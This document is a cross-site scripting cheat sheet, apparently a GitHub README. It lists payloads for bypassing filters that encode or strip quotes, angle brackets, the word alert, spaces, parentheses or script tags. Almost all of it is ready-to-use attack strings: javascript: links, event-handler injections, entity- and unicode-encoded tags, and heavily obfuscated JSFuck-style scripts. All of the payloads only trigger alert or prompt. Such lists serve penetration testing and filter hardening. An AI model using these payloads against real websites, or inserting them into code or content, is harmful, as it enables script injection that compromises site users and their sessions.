 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```
1) <a href="javascript:alert(1)"  >Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a src="google.com" onclick="alert(1)"  >Click</a>
```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" > <!--    If you cannot escape from the attribute (" is being encoded or deleted))

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>
   (
   [
   ,
   O
   ,
   B
   ,
   J
   ,
   E
   ,
   C
   ,
   ,
   ]
   =
   [
   ]
   +
   {
   }
   ,
   [
   T
   ,
   R
   ,
   U
   ,
   E
   ,
   F
   ,
   A
   ,
   L
   ,
   S
   ,
   ,
   ,
   N
   ]
   =
   [
   !
   !
   O
   ]
   +
   !
   O
   +
   B
   .
   E
   )
   [
   X
   =
   C
   +
   O
   +
   N
   +
   S
   +
   T
   +
   R
   +
   U
   +
   C
   +
   T
   +
   O
   +
   R
   ]
   [
   X
   ]
   (
   A
   +
   L
   +
   E
   +
   R
   +
   T
   +
   `
   (
   1
   )
   `
   )
   (
   )
   </script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

```

### 4.If space is encoded or deleted
```
use tab url encode : %09
<input%09value"XXXXXXX"%09onclick=alert(1)>Click</input>
```

### 5.If () is encoded or deleted
```
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```
SVG, img, iframe 
```
